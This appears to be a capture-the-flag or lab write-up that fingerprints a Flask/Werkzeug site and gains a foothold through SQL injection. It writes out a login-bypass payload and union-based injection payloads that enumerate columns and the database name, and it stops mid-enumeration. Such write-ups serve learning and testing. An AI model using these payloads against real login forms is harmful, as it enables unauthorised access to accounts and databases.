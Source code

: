 ## Searchsploit
```
searchsploit werkzeug 2.0.2
Exploits: No Results
Shellcodes: No Results
```
Nothing interesting

## Check the website

![[Pasted image 20230222005844.png]]
Flask, so python?

### Signin
![[Pasted image 20230222001214.png]]
I dont have credentials, so lets make one.

### Signup
![[Pasted image 20230222003933.png]]

![[Pasted image 20230222005226.png]]
Login!


# Foothold
## SQL Injection
Lets go back to the login page and try some injection.

### Signin bypass
`email=' or 1=1-- -&password=tofu` this works to bypass login.
double dash is for comment, single dash is for protect from trailing space.
before I have registered someone named toh and tofu
```html
<h2 class="h4">Welcome admintohtofu</h2>
```

It is possible that all the usernames are displayed?

### Union injection
#### email=' union all select 1,2,3,4-- -&password=tofu
```html
<h2 class="h4">Welcome 4</h2>
```

### Get database name
#### email=' union select 1,2,3,database()-- -&password=tofu
